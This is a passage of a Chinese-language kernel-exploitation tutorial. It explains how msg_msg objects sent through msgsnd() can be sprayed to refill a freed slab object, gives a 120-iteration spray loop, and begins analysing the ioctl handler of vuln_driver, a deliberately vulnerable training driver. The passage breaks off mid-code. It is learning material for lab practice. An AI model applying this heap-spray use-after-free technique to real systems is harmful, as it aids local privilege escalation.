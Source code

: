 ```
    alen = min(len, DATALEN_MSG);
    msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT); // 先分配了一个msg_msg结构大小
...


```

`msgsnd()`--->`ksys_msgsnd()`--->`do_msgsnd()`。

do_msgsnd() 根据用户传递的 buffer 和 size 参数调用 load_msg(mtext, msgsz)，load_msg() 先调用 alloc_msg(msgsz) 创建一个 msg_msg 结构体（），然后拷贝用户空间的 buffer 紧跟 msg_msg 结构体的后面，相当于给 buffer 添加了一个头部，因为 msg_msg 结构体大小等于 0x30，因此用户态的 buffer 大小等于`xx-0x30`。

**结论**：前 0x30 字节不可控。数据量越大（本文示例是 96 字节），发生阻塞可能性越大，120 次发送足矣。

**利用流程**：

```
// 只能控制0x30字节以后的内容
struct {
  long mtype;
  char mtext[BUFF_SIZE];
}msg;
memset(msg.mtext, 0x42, BUFF_SIZE-1); // 布置用户空间的内容
msg.mtext[BUFF_SIZE] = 0;
int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
msg.mtype = 1; //必须 > 0
// 假设此时已经产生释放对象，但指针未清空
for(int i = 0; i < 120; i++)
  msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
// 触发UAF即可


```

二、 漏洞分析
=======

### （1）代码分析

我们以[漏洞驱动 - vuln_driver](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Finvictus-0x90%2Fvulnerable_linux_driver) 来进行实践。vuln_driver 驱动包含漏洞有任意地址读写、空指针引用、未初始化栈变量、UAF 漏洞、缓冲区溢出。本文主要分析 UAF 漏洞及其利用。

```
// vuln_driver.c: do_ioctl()驱动号分配函数
static long do_ioctl(struct file *filp, unsigned int cmd, unsigned long args)
{
    int ret;
    unsigned long *p_arg = (unsigned long *)args;
    ret = 0;

    switch(cmd) {
        case DRIVER_TEST:
            printk(KERN_WARNING "[x] Talking to device [x]\n");
            break;
        case ALLOC_UAF_OBJ:
            alloc_uaf_obj(args);
            break;
        case USE_UAF_OBJ:
            use_uaf_obj();
            break;
        case ALLOC_K_OBJ:
            alloc_k_obj((k_object *) args);
            break;
        case FREE_UAF_OBJ:
            free_uaf_obj();
```